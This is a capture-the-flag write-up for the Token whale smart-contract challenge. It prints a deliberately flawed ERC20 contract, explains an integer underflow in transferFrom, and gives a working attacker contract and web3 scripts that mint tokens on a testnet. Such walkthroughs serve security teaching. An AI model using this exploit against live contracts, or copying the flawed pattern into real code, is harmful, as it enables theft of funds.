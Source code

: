 # 10. Token whale

This ERC20-compatible token is hard to acquire. There’s a fixed supply of `1,000` tokens, all of which are yours to start with.

Find a way to accumulate at least `1,000,000` tokens to solve this challenge.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract TokenWhaleChallenge {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;

    function TokenWhaleChallenge(address _player) public {
        player = _player;
        totalSupply = 1000;
        balanceOf[player] = 1000;
    }

    function isComplete() public view returns (bool) {
        return balanceOf[player] >= 1000000;
    }

    event Transfer(address indexed from, address indexed to, uint256 value);

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;

        emit Transfer(msg.sender, to, value);
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    event Approval(address indexed owner, address indexed spender, uint256 value);

    function approve(address spender, uint256 value) public {
        allowance[msg.sender][spender] = value;
        emit Approval(msg.sender, spender, value);
    }

    function transferFrom(address from, address to, uint256 value) public {
        require(balanceOf[from] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);
        require(allowance[from][msg.sender] >= value);

        allowance[from][msg.sender] -= value;
        _transfer(to, value);
    }
}
```

## Vulnerability

The issue here is that `transferFrom` will internally call `_transfer` that operates on `balanceOf[msg.sender]` at `balanceOf[msg.sender] -= value;`. Through approval, the balance is not coming from `msg.sender` by definition. We can therefore cause an underflow on `balanceOf[msg.sender]` and get out with as many tokens as we'd like.

If you want more details : calling `transferFrom` from an approved addres that has 0 balance will eventually execute : `balanceOf[msg.sender] -= value`. Given that `msg.sender` has 0 balance, the underflow will set its balance to `2^256 - value`, thus generating a potentially huge number of tokens for free. In this challenge there is both a bad contract design (unchecked conditions and requirements) paired with unchecked arithmetic.

Let's use a very simple contract for that challenge :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma abicoder v1;

contract Attacker {
  address targetContract;
  address owner;

  constructor (address _targetContract) {
    targetContract = _targetContract;
    owner = msg.sender;
  }

  function attack() public {
    // Causes an underflow in the balance of this contract in the token contract
    (bool success1, ) = targetContract.call(abi.encodeWithSignature("transferFrom(address,address,uint256)", owner, address(0), 1000));

    require(success1 == true, "Error in transferFrom");
    
    // Transfer 1000000 tokens to our address
    (bool success2, ) = targetContract.call(abi.encodeWithSignature("transfer(address,uint256)", owner, 1000000));

    require(success2 == true, "Error in transfer");
  }
}
```

And deploy to to the Ropsten network giving it as parameter the address of the challenge contract.

Now let's just approve this adversarial contract :

```js
const challengeContract = "0x98B45E96cE95Bc46fAfa0E1E3a8145cBf246c330";
const adversarialContract = "0x0544349F01942671dE3E0060a3759cC4698316aE";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "approve",
    type: "function",
    inputs: [
      { type: "address", name: "spender" },
      { type: "uint256", name: "value" },
    ],
  },
  [adversarialContract, 1000]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});

```

And launch the attack :

```js
const adversarialContract = "0x0544349F01942671dE3E0060a3759cC4698316aE";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "attack",
    type: "function",
    inputs: [],
  },
  []
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: adversarialContract,
  data: data,
});
```

We now have a balance of 1001000 as we generated 1000000 tokens from the faulty `transferFrom` that in turn deduced 1000 from `msg.sender`. But `msg.sender` was not our address, it was the one of the adversarial contract. The adversarial contract finally send 1000000 tokens to our address, thus giving us a blance of 1001000 tokens.

You can submit the challenge.

